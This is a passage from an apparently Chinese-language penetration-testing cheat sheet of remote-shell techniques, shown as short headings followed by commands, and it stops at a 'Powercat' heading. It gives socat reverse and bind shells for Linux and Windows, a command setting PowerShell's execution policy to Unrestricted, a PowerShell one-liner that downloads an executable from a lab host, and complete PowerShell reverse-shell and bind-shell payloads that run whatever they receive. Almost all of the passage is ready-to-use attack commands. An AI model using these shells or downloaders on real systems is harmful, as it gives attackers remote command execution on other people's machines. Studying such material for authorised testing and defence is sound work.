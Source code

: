 控制方：  `sudo socat -d -d TCP4-LISTEN:443 STDOUT` 

被控方： `socat TCP4:10.211.55.5:443 EXEC:/bin/bash` 

被控方（Windows）：  `socat TCP4:10.211.55.5:443 EXEC:'cmd.exe',pipes` 

### 绑定shell（无加密）

被控方： `sudo socat TCP4-LISTEN:43,fork EXEC:/bin/bash` 

控制方： `socat - TCP4:10.211.55.5:443` 

## PowerShell

Windows PowerShell 是一种基于任务的命令行shell和脚本语言。它是专门为系统管理员和高级用户设计的，用于快速自动化管理多个操作系统(Linux、macOS、Unix和Windows)以及与运行在这些操作系统上的应用程序相关的进程。

### 前提

首先要设置Powershell的执行策略为 Unrestricted

设置执行策略：  `Set-ExecutionPolicy Unrestricted` 

查看执行策略： `Get-ExecutionPolicy` 

### PowerShell 文件传输

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.211.55.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```

### PowerShell 反弹shell

```
powershell -Command {$client = New-Object System.Net.Sockets.TCPClient('10.211.55.5',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}
```

### PowerShell 绑定shell

```
`powershell -Command {$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()}
```

## Powercat
